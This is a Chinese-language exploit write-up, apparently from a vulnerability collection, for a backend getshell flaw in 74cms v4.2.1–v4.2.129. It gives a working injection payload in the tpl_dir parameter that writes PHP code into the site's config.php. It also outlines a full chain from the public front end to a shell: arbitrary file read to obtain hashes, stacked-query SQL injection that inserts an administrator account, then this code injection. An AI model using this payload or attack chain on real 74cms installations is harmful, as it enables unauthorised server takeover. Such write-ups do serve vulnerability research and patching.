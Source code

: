 ```yaml
---
title: 74cms v4.2.1 - v4.2.129-后台getshell漏洞
id: zhfly2776
---
```


# 74cms v4.2.1-v4.2.129-后台getshell漏洞

## 0x00 前言

厂商：74cms
下载地址：http://www.74cms.com/download/index.html
关于版本：
新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。
注：此漏洞不用升级至最新版本也可使用。

## 0x01 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)
2， 将下载好的包进行安装
3， 进入后台点击查看如果不是最新版的话，请点击升级！
4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决
5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php
6， 查找所有$_SERVER['HTTP_HOST'] 改为 http://baidu.com 即可

## 0x02漏洞演示

![image](../img/55a8dbd1825d4f385e18819760396d67.png)

```
url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),' `shell:[http://74cms.test/Application/Home/Conf/config.php](http://74cms.test/Application/Home/Conf/config.php)

路径：\74cms\upload\Application\Home\Conf\config.php` 
```

![image](../img/f78ad077252a2f322080230242ab2590.png)

![image](../img/93d6eadf5a5e4550c50392efb0a0db2c.png)

## 0x03 漏洞原理

```
url: http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
路径：74cms\upload\Application\Admin\Controller\TplController.class.php 
```

![image](../img/a1098a4f960dad07b04ba0ed1c576e39.png)

```
路径： 74cms\upload\Application\Common\Controller\BackendController.class.php 
```

![image](../img/766c48011574513991c9ca786ebabdd6.png)

## 0x04题外话-认真版getshell方法

认真版getshell方法：
实际上想要进行getshell利用组合漏洞是很简单的事情。我的前台日到后台的getshell方法是这样的。
首先利用-任意文件读取漏洞-读取系统中的hash值
然后在通过漏洞-前台sql注入-来插入用户数据-因为我发现他可以支持执行双语句所以可以执行mysql双语句插入一条管理员用户
在通过这个后台getshell漏洞
即可完成一套日穿

## 四、参考链接

> https://www.yuque.com/pmiaowu/bfgkkh/wecilm